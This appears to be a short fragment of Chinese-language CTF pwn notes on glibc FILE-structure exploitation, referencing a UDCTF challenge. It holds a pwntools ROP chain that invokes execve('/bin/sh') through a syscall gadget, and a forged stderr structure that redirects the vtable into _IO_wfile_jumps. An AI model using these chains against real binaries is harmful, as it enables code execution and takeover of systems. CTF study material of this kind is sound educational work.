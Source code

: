 ‍

- 参考UDCTF 12 第一次调试这个 house 是用的这个题

‍

‍

#### ORW_execve

‍

```python
pause()

## ORW_execve
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

execve_addr = fake_IO_addr

execve_rop = p64(rax) + p64(0x3b) + p64(rdi) + p64(execve_addr +0x50) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)
execve_rop += b'/bin/sh'.ljust(0x10,b'\x00')
sl(execve_rop)


```

‍

‍

‍

## 低版本打 exit IO流

‍

- 伪造 stderr

```python
pay = flat({
    0x00: 0,
    0x28: 0xffffffff,
    0xd8: libc.symbols['_IO_wfile_jumps'] + 0x30, # vtable # 可以控制虚表的走向
    0xe0: 0
}, filler=b"\x00")
```

‍
